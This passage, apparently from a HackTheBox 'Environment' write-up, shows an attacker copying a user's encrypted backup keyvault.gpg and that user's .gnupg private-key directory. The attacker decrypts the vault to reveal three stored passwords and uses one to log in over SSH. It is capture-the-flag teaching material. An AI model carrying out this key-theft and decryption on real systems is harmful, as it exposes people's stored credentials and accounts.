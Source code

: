 # User
Looking around we can actually view `hish` user's home directory, as can be seen from the directory's execute permissions.

```bash
4.0K drwxr-xr-x  3 root root 4.0K Jan 12 11:51 .
4.0K drwxr-xr-x 18 root root 4.0K Apr 30 00:31 ..
4.0K drwxr-xr-x  5 hish hish 4.0K Apr 11 00:51 hish
```

We can see `backup` which looks interesting.

```bash
ls -lash
total 36K
4.0K drwxr-xr-x 5 hish hish 4.0K Apr 11 00:51 .
4.0K drwxr-xr-x 3 root root 4.0K Jan 12 11:51 ..
   0 lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
4.0K -rw-r--r-- 1 hish hish 3.5K Jan 12 14:42 .bashrc
4.0K drwxr-xr-x 4 hish hish 4.0K May  4 21:40 .gnupg
4.0K drwxr-xr-x 3 hish hish 4.0K Jan  6 21:43 .local
4.0K -rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
4.0K drwxr-xr-x 2 hish hish 4.0K Jan 12 11:49 backup
4.0K -rw-r--r-- 1 root hish   33 May  4 06:33 user.txt
```

Inside the `backup` directory we can find `keyvault.gpg`, Let's transfer this over to our localhost.

Let's also zip up the `.gnupg` directory and transfer it to our localhost as well.

Now that we have all these files let's decrypt the `keyvault.gpg` using `gpg`

```bash
gpg --homedir .gnupg -d keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/workspace/htb/labs/environment/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

We get the following creds:
`Ihaves0meMon$yhere123`

`marineSPm@ster!!`

`summerSunnyB3ACH!!`

We can `ssh` to `environment.htb` using `hish`:`marineSPm@ster!!`

```bash
ssh hish@environment.htb
hish@environment.htbs password:
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent                                                                                                                                                permitted by applicable law.                                                                                                                                                                                     -bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
Last login: Sun May 4 22:05:48 2025 from 10.10.14.158
hish@environment:~$
```